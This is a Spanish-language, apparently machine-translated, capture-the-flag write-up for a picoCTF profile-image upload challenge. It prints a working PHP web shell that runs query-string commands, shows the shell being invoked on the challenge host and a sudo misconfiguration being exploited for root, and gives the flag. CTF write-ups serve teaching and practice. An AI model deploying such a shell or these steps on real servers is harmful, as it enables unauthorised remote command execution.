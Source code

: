 #### Descripción

Un desarrollador ha agregado la funcionalidad de carga de imágenes de perfil a un sitio web. Sin embargo, la implementación es defectuosa y presenta una oportunidad para usted. Tu misión, si decides aceptarla, es navegar hasta el lugar provisto. página web y localice el área de carga de archivos. Su objetivo final es encontrar el hidden ubicado en el directorio./root

Habrá detalles adicionales disponibles después de lanzar la instancia de desafío.

### Solución
- En primer lugar, vaya a la instancia y verá que existe la vulnerabilidad de carga de archivos
- Por lo tanto, se puede cargar cualquier tipo de script

1. Vulnerabilidad de carga de archivos

- Luego hice este shell php y lo subí al servidor:

<?php  
if(isset($_GET['cmd'])){  
    echo "<pre>";  
    $cmd = $_GET['cmd'];  // Get command from the query string  
    system($cmd);         // Execute the command and display output  
    echo "</pre>";  
}  
?>

2. php Shell subido

- Luego, cualquier comando se puede ejecutar activando la ruta:  
    Punto final: *uploads/shell.php?cmd=*

http://standard-pizzas.picoctf.net:63914/uploads/shell.php?cmd=

- Vamos a comprobar el usuario actual:

http://standard-pizzas.picoctf.net:63914/uploads/shell.php?cmd=whoami

3. Usuario actual

- Ahora veamos los privilegios para el usuario actual:

3. Sin contraseña de root

Matching Defaults entries for www-data on challenge:  
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
  
User www-data may run the following commands on challenge:  
    (ALL) NOPASSWD: ALL

(ALL) NOPASSWD: ALL

- Por lo tanto, no se necesitará ninguna contraseña para acceder a ningún usuario, así como a la root.
- Ahora vamos a obtener la bandera como usuario root:

**Respuesta en el formato del concurso:**
picoCTF{wh47_c4n_u_d0_wPHP_b42a374d}